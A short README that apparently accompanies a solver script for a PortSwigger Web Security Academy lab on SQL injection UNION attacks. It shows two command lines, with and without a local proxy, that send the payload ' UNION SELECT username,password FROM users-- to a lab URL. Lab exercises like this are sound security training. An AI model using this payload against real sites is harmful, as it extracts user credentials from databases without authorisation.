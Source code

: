 # How to run script.py

### SQL injection UNION attack, retrieving data from other tables

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "' UNION SELECT username,password FROM users--"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "' UNION SELECT username,password FROM users--" -p 127.0.0.1:8080`
